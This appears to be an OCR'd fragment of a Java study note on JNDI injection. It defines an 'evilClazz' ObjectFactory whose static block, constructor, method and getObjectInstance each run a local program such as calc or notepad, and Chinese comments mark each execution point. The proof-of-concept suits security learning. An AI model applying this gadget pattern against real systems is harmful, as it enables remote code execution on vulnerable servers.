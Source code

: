 ```java
        	
        	//getObjectInstance()函数的代码如何触发？和web框架环境有关系，需要学习！！
        	
        	
		} catch (Exception e) {
			e.printStackTrace();
		}
    }
}

class evilClazz implements ObjectFactory{
	public static String aaa;
	
	//静态代码块命令执行
    static
    {
        try {
            Runtime.getRuntime().exec("explorer.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	
	//构造函数命令执行
    evilClazz(){
        try{
            Runtime.getRuntime().exec("calc");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //自定义函数
    public void fun() {
        try{
            Runtime.getRuntime().exec("notepad.exe");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    
    //getObjectInstance命令执行,是因为实现了ObjectFactory接口。
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
    	try {
			Runtime.getRuntime().exec("mstsc.exe");
		} catch (IOException e) {
			e.printStackTrace();
		}
        return null;
    }
}

```
